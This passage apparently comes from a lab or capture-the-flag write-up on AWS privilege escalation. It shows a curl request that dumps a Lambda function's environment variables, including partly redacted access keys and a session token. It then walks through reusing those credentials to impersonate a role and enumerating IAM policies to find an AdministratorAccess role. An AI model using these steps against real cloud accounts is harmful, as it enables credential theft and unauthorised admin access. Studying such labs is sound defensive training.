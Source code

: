 ```bash
curl -s https://7ugah55qzqqzt3amghhxztvcpm0casis.lambda-url.eu-west-1.on.aws/ | sed 's/[\x00]/\n/g' | tr "=" " "

LANG en_US.UTF-8
AWS_XRAY_CONTEXT_MISSING LOG_ERROR
PATH /var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
LAMBDA_RUNTIME_DIR /var/runtime
AWS_LAMBDA_LOG_GROUP_NAME /aws/lambda/demo1-privesc-Demo1LambdaFun-JEFvT6tPPqm
AWS_REGION eu-west-1
AWS_LAMBDA_RUNTIME_API 127.0.0.1:9001
_AWS_XRAY_DAEMON_PORT 2000
_LAMBDA_TELEMETRY_LOG_FD 3
_AWS_XRAY_DAEMON_ADDRESS 169.254.79.129
AWS_ACCESS_KEY_ID ASIA[..]LRX2
LAMBDA_TASK_ROOT /var/task
_HANDLER index.handler
AWS_LAMBDA_FUNCTION_VERSION $LATEST
AWS_LAMBDA_INITIALIZATION_TYPE on-demand
AWS_XRAY_DAEMON_ADDRESS 169.254.79.129:2000
AWS_EXECUTION_ENV AWS_Lambda_python3.9
TZ :UTC
LD_LIBRARY_PATH /var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_SECRET_ACCESS_KEY fQ3M[..]DQO
AWS_SESSION_TOKEN IQoJb[..]ZiV/k
AWS_LAMBDA_FUNCTION_MEMORY_SIZE 128
AWS_DEFAULT_REGION eu-west-1
AWS_LAMBDA_FUNCTION_NAME demo1-privesc-Demo1LambdaFun-JEFvT6tPPqm
_LAMBDA_SERVER_PORT 42491
AWS_ACCESS_KEY ASIA[..]LRX2
AWS_SECRET_KEY fQ3M[..]DQO
AWS_SECURITY_TOKEN IQoJb[..]ZiV/k
```

Import the new credentials to impersonate `lambda-runner` role.

Perform an enumeration on the Lambdas to discover two new lambda:

- `backend-api-temp` with `temp-backend-api-role-runner` role
- `backend-lambda-api` with `lambda-runner` role

Investigate the `temp-backend-api-role-runner` role policies:

```bash
aws iam list-role-policies --role-name temp-backend-api-role-runner

{
    "PolicyNamnes": []
}

aws iam list-attached-role-policies --role-name temp-backend-api-role-runner

{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:Policy/AdministratorAccess"
        }
    ]
}
```
